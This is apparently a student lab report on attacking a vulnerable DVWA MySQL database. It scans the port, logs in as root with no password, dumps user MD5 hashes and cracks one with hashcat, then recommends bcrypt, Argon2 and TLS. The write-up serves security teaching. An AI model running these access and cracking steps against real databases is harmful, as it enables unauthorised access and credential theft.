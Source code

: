 # 🔐 Lab 2: Cryptographic Attacks – Cracking Weak Password Hashes & Exploiting Poor Authentication in Databases

**👨‍💻 Author**: Raja Muhammad Haiqal Shah Bin Raja Muzairil Shah  
**📅 Date**: 25 April 2025  
**⏳ Time Allocation**: 3 Hours  
**📝 Total Marks**: 15  
**🧩 Lab Type**: Hands-On + Report + Demo/Debrief  

---

## 🧠 A. Lab Objectives

1. Identify and exploit cryptographic weaknesses in database authentication and password storage.
2. Perform offline hash cracking after discovering password hashes in a vulnerable database.
3. Investigate real-world cryptographic failures and propose secure solutions.
4. Document findings clearly in GitHub (Markdown) and present a short demo/debrief.

---

## 🛠️ Tools Used

- `Kali Linux` (OS)
- `nmap` (Service enumeration)  
- `mysql-client` (Database access)  
- `hashid` / `hash-identifier` (Hash detection)  
- `hashcat` / `john` (Hash cracking)  
- `wireshark` (Traffic analysis – optional)

---

## 🌐 IP Addresses

- **Attacker**: `192.168.157.142`  
- **Victim**: `192.168.157.137`  

---

## 🧩 B. Lab Tasks

### 1. 🔍 Service Enumeration and Initial Access

**Command Used:**

```bash
nmap -sV -p 3306 192.168.157.137 > nmap.txt

```
![nmap](screenshot/nmap_scan.png)

- Identified that **MySQL** was running on port **3306**.

**Attempting Connection:**

```bash
mysql -h 192.168.157.137 -u root --password=""
```

**Error Encountered:**
```vbnet
ERROR 2026 (HY000): TLS/SSL error: wrong version number
```

**Solution:**

```bash
mysql -h 192.168.157.137 -u root --password="" --ssl=0
```

![fix command](screenshot/fix_command.png)

✅ **Resolved**: TLS version mismatch between MySQL client and server.

> **Note**:  
> MySQL versions prior to 5.7.11 do not support `--ssl-mode`. Use `--ssl=0` to disable SSL.

---

### 2. 🧑‍💻 Enumeration of Users and Authentication Weaknesses

```sql
USE dvwa;
SHOW TABLES;
```

**Expected Output:**

```diff
+----------------+
| Tables_in_dvwa |
+----------------+
| guestbook      |
| users          |
+----------------+
```
**Querying user data:**
```sql
SELECT * FROM users;
```

- Found usernames and MD5 password hashes.
- Selected user admin for cracking.

![usernpass](Screenshots/usernpass.png)

**Saved hash to file:**

```bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hash.txt
```

> ⚠️ **Reflection Question**:  
> Is accessing a database with no password a cryptographic failure?  
> ✅ **Yes**. It violates secure authentication practices by allowing unauthorized access due to missing or weak credentials.

---

### 3. 🔍 Password Hash Discovery & Identification

Used `hash-identifier`:

```bash
hash-identifier 5f4dcc3b5aa765d61d8327deb882cf99
```

- Detected as **MD5** hash.

![hashidentifier](Screenshots/hashidentifier.png)

> ⚠️ **Reflection Question**:  
> What cryptographic weaknesses exist in this hashing method?  
> - MD5 is **unsalted** and **fast**, making it susceptible to rainbow table and brute-force attacks.

---

### 4. 🧨 Offline Hash Cracking

Used **hashcat** to brute-force the MD5 hash:

```bash
hashcat -m 0 hash.txt --show > cracked_results.txt
```

✅ **Result:**
```text
5f4dcc3b5aa765d61d8327deb882cf99:password
```

![hashcatresult](Screenshots/hashcatresult.png)

**Cracked Password**: `password`

> Password entropy is low. "password" is one of the most common weak passwords.

---

### 5. 🔐 Cryptographic Analysis & Mitigation

#### 🔎 Identified Weaknesses:

| Component     | Issue                         |
|---------------|-------------------------------|
| Authentication | Empty/Weak passwords          |
| Hashing        | MD5 without salt              |
| Transmission   | Plaintext over network        |

#### 🔧 Recommendations:

- **Authentication**: Enforce strong password policies, apply rate-limiting or use `fail2ban`.
- **Hashing**: Replace MD5 with **bcrypt** or **Argon2** (both are memory-hard and slow).
- **Transmission**: Enable **SSL/TLS** encryption for database connections.

#### 🕵️ Wireshark Observation:

Captured raw data during database login. Password hashes and queries visible in plaintext.

![wireshark](Screenshots/wirehark.png)

---

## ✅ Conclusion

This lab demonstrated real-world cryptographic vulnerabilities that still exist in poorly configured systems. Weak authentication, outdated hashing, and unencrypted transmissions can all be exploited easily by attackers.

Securing such systems involves:
- Enforcing authentication best practices,
- Adopting strong, salted password hashing,
- Ensuring secure encrypted communication channels.

**Always audit legacy systems for these cryptographic flaws.** 🔐

---

🧠 *"Attack like a black hat. Defend like a white hat."* – Haiqal